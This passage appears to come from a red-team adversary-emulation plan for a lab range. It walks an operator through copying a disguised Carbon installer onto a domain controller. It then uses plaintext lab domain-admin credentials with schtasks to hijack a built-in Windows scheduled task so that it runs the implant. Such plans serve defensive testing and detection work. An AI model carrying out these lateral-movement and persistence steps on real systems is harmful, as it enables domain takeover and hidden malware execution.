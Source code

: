 * Open an Admin Command Prompt. Use the following credentials if prompted:

| Username   | Password |
| :--------: | :---------------: |
| skt\frieda | Password3! |

:arrow_right: Minimize the RDP session to `hobgoblin` and start a new RDP
session to `bannik (10.20.10.9)` as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Open Microsoft Edge.

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)` and
from the Admin Command Prompt, copy the 2nd Carbon installer to `bannik (10.20.10.9)`:

```bat
move C:\Windows\System32\wmimetricsq.exe \\bannik\C$\Windows\System32
```

:arrow_right: In your RDP session to `bannik (10.20.10.9)`, open File Explorer
and browse to `C:\Windows\System32`. Order the files by date.

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)`.

* From the Admin Command Prompt, execute the following to enumerate schtasks on
the domain controller:

```bat
schtasks /query /S bannik /U skt\Frieda /P Password3!
```

* :heavy_exclamation_mark: Verify that `\Microsoft\Windows\Customer Experience
Improvement Program\Consolidator` task appears in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `Customer Experience Improvement Program`
  * The output should contain:
  * >    ```
    >    Folder: \Microsoft\Windows\Customer Experience Improvement Program
    >    TaskName                                 Next Run Time          Status         
    >    ======================================== ====================== ===============
    >    Consolidator                             2/24/2023 12:00:00 AM  Ready          
    >    UsbCeip                                  N/A                    Ready      
    >    ```

* Wait for the command to return and then modify a scheduled task using the
discovered password for the domain admin `Frieda` (<https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>).

```bat
schtasks /Change /S bannik /U skt\Frieda /P Password3! /TN "\Microsoft\Windows\Customer Experience Improvement Program\Consolidator" /TR %SystemRoot%\System32\wmimetricsq.exe
```

* Wait for the command to return and then start the modified scheduled task on
the domain controller.
